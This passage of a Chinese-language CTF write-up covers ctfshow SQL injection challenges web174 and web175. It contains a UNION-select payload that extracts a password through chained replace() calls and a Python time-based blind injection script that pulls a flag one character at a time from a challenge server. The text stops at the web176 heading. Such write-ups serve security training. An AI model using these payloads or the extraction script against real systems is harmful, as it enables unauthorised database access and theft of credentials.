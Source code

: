 payload: `1' union select replace(replace(replace(replace(replace(replace(replace(replace(replace(replace(password,1,'A'),2,'B'),3,'C'),4,'D'),5,'E'),6,'F'),7,'G'),8,'H'),9,'I'),0,'J'),'b' from ctfshow_user4 where username='flag' %23`

![20220724212754](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724212754.png)

替换回去后得到 flag

## web175

```php
//检查结果是否有flag
    if(!preg_match('/[\x00-\x7f]/i', json_encode($ret))){
      $ret['msg']='查询成功';
    }
```

`[\x00-\x7f]/i` 匹配 ASCII 码表范围内的字符

也就是说 字母 数字 符号都显示不出来了

`1' and sleep(5) %23`

猜测为时间盲注

脚本

```python
import time
import requests

dicts='1234567890-_{}qwertyuiopasdfghjklzxcvbnm'

flag = ''

for i in range(1,64):
    for s in dicts:
        sql= '1\' and if(substr((select password from ctfshow_user5 where username=\'flag\'),{},1)=\'{}\',sleep(3),0) %23'.format(i,s)
        url = 'http://d2a0c671-e4d9-4ecb-b011-90a5fc68b498.challenge.ctf.show/api/v5.php?id={}&page=1&limit=1'.format(sql)
        start_time = time.time()
        res = requests.get(url)
        stop_time = time.time()
        if stop_time - start_time >= 3:
            flag += s
            print(flag)
            break
```

![20220724215506](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/20220724215506.png)

## web176
